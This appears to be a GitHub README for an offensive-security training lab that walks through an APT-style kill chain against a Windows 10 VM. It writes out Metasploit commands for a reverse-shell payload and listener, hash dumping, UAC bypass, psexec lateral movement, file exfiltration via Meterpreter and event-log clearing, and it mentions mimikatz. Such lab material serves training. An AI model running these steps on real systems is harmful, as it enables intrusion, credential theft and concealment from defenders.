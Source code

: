 # RedOps: Adversary Simulation – APT-style Red Team Attack Lab

This project simulates a real-world Advanced Persistent Threat (APT)-style Red Team attack across the full kill chain. It is designed for offensive security training, showcasing techniques in reconnaissance, phishing, privilege escalation, lateral movement, data exfiltration, and evasion.

---

## 🧰 Lab Setup

- **Attacker VM**: Kali Linux / Parrot OS
- **Victim VM**: Windows 10
- **Network Mode**: Host-Only Adapter (Static IPs)

| Machine      | OS           | IP Address     |
|--------------|--------------|----------------|
| Attacker     | Parrot OS    | `HIDDEN`       |
| Victim       | Windows 10   | `HIDDEN`       |

---

## ☠️ Kill Chain Steps Overview

### 1. Reconnaissance

- Tools: `nslookup`, `whois`, `nmap`, `nikto`
- Objective: Gather open ports and services of target.

### 2. Weaponization & Delivery

- Created a malicious payload using:
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=4444 -f exe > payload.exe

3. Exploitation
Listener set up in msfconsole:

bash
Copy
Edit
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
set LPORT 4444
run -j
Payload executed on victim → Meterpreter session obtained.

4. Privilege Escalation
Used:

getuid

sysinfo

post/windows/gather/hashdump

Manual enumeration (systeminfo, whoami, net localgroup administrators)

Escalated to NT AUTHORITY\SYSTEM using:

bash
Copy
Edit
exploit/windows/local/bypassuac
5. Lateral Movement
Searched for other hosts in the same network

Used psexec and smb modules for remote code execution

6. Data Exfiltration
Zipped sensitive files

Transferred via Meterpreter or HTTP server

Example:

bash
Copy
Edit
download C:\\Users\\target\\Documents\\secrets.zip
7. Evasion Techniques
Cleared event logs:

bash
Copy
Edit
clearev
Renamed payloads

Used mimikatz for credential dumping with obfuscation
